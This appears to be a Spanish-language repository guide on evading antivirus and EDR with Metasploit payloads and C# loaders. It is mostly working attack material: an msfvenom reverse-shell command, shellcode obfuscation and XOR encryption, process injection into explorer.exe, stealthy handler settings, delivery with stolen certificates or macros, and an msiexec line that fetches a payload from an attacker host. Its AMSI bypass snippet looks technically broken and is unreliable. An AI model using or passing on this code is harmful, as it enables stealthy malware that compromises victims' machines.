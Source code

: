 # JumpCode

### **Guía de Evasión de AV con Metasploit + Visual Studio Code**

#### **1. Generación del Payload (Ocultamiento Básico)**
```bash
msfvenom --platform windows -p windows/shell/reverse_tcp LHOST=192.168.1.X LPORT=5555 -f csharp
```
▸ **Mejora clave**:  
• Codifica 3 veces con `-e x86/shikata_ga_nai -i 3`  
• Usa payloads menos comunes: `windows/x64/meterpreter/reverse_https`  
• Añade nops: `-n 22`  

#### **2. Ofuscación del Shellcode**
```csharp
// Conversión a formato ofuscado (ejemplo real)
string payload = "*fc*e8*82...*d5";  // 1. Eliminar "0x", 2. Reemplazar con "*", 3. Quitar comas
```
▸ **Técnicas avanzadas**:  
• **Split inteligente**:  
```csharp
string[] hexParts = payload.Split(new[] { '*' }, StringSplitOptions.RemoveEmptyEntries);
```  
• **Cifrado XOR**: Añade capa de cifrado simple con clave aleatoria  

#### **3. Implementación en Visual Studio (Trucos Anti-EDR)**
```csharp
// Técnica de asignación memorya dinámica
IntPtr mem = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, 0x3000, 0x40);

// Inyección en proceso legítimo (ej. explorer.exe)
IntPtr hProcess = OpenProcess(0x1F0FFF, false, targetPID);
WriteProcessMemory(hProcess, mem, shellcode, shellcode.Length, out _);
CreateRemoteThread(hProcess, IntPtr.Zero, 0, mem, IntPtr.Zero, 0, IntPtr.Zero);
```

#### **4. Configuración del Handler (Stealth Mode)**
```bash
msf6 > set EnableStageEncoding true
msf6 > set StageEncoder x64/zutto_dekiru
msf6 > set HttpUserAgent "Mozilla/5.0 (Windows NT 10.0)"
msf6 > set ExitOnSession false
```

#### **5. Técnicas de Entrega (Bypass SmartScreen)**
• **Firma digital**: Usa signtool con certificados robados/auto-firmados  
• **Plantillas Office**: Incrusta en macros (usar nombres de funciones ofuscados)  
• **LOLBAS**: Ejecución via `msiexec.exe /i http://attacker/payload.msi`  

---

### **Tabla Comparativa: Técnicas vs Eficacia**

| Técnica                  | Detección AV | Dificultad | Eficacia |
|--------------------------|--------------|------------|----------|
| Shellcode crudo          | Alta         | Baja       | 20%      |
| Ofuscación básica (*)    | Media        | Media      | 45%      |
| + XOR Encryption         | Baja         | Alta       | 75%      |
| + Inyección en procesos  | Muy baja     | Alta       | 90%      |

---

### **Recomendaciones Clave**
1. **Sleep() es tu amigo**:  
   ```csharp
   Thread.Sleep(new Random().Next(2000, 5000)); // Evita sandboxes
   ```  
2. **API Hashing**: Resuelve APIs dinámicamente con:  
   ```csharp
   [DllImport("kernel32")] static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);
   ```  
3. **AMSI Bypass**: Incluye este código al inicio:  
   ```csharp
   var amsi = (new[] { 'A','m','s','i','S','c','a','n','B','u','f','f','e','r' });
   IntPtr ptr = VirtualAlloc(IntPtr.Zero, (uint)amsi.Length, 0x1000, 0x40);
   Marshal.Copy(amsi, 0, ptr, amsi.Length);
   ```
   ### **Flujo de Evasión Avanzado**
```mermaid
graph TD
    A[Generar Payload] --> B[Encoder + Packer]
    B --> C[Ofuscación en C#]
    C --> D[Inyección en Proceso]
    D --> E[C2 con HTTPS]
    E --> F[Limpieza de Artefactos]
```
